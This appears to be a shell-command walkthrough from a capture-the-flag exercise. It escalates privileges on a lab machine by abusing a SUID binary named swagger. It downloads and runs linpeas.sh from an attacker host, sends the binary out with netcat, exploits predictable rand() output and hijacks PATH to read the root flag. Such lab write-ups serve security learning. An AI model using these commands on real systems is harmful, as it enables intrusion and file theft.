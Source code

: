 ```shell

cd /tmp

#in attacker machine
python3 -m http.server

#in victim session
wget http://10.14.31.212:8000/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh

ls -la /srv/time-turner

#unknown SUID binary
ls -la /srv/time-turner/swagger

#transfer file from victim to attacker
#in attacker machine
nc -nvlp 4444 > swagger

#in victim machine
nc 10.14.31.212 4444 -w 3 < swagger

#we can now analyse 'swagger' in attacker machine
#using Ghidra, view impressive() function

#in attacker machine
chmod +x swagger

#rand() is vulnerable
for x in {1..3}; do echo 0 | ./swagger; done
#same number is chosen everytime

#we can exploit this
echo 0 | ./swagger | grep -oE '[0-9]+' | ./swagger
#this prints system architecture

#in victim machine
cd /tmp

export PATH=/tmp:$PATH

echo $PATH

echo 'cat /root/root.txt' > /tmp/uname

chmod +x /tmp/uname

#run swagger binary to print root flag
echo 0 | /srv/time-turner/swagger | grep -oE '[0-9]+' | /srv/time-turner/swagger
```
